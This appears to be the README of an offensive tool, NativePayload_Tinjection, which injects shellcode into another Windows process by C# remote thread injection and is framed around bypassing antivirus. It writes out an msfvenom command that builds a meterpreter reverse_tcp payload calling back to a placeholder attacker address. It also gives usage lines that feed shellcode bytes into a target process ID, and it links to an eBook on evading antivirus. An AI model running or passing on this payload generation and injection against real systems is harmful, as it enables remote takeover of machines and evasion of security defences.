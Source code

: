 # NativePayload_Tinjection
Creating Remote Thread into Target Process , (Remote Thread Injection by C# + Delegate Techniques)

-----------------------
Related Links for "Mitre ATT&CK" : 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_Tinjection.exe [TPID] [PAYLOAD]

    Code2: NativePayload_Tinjectionx.exe [TPID] [PAYLOAD]
    
    Code3: NativePayload_Tinjection2.exe [TPID] [PAYLOAD]
    
    Code4: NativePayload_Tinjection2nt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_Tinjection.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_Tinjectionx.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2nt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part1)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part1.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

NativePayload_Tinjection.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/2.jpeg)

NativePayload_Tinjection2nt.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/NativePayload_Tinjection2nt.png)
